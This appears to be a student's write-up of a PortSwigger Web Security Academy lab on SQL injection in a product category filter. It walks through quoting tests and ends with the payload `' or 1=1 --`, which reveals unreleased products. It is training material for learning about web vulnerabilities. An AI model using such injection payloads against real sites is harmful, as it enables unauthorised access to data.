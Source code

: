 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

Link > https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data


SQL injection - product category filter

SELECT * FROM products WHERE category = 'Gifts' AND released = 1 

End goal: display all products both released and unreleased.

## Analysis:

SELECT * FROM products WHERE category = 'Pets' AND released = 1

SELECT * FROM products WHERE category = ''' AND released = 1 

SELECT * FROM products WHERE category = ''--' AND released = 1 

SELECT * FROM products WHERE category = ''

SELECT * FROM products WHERE category = '' or 1=1 --' AND released = 1 
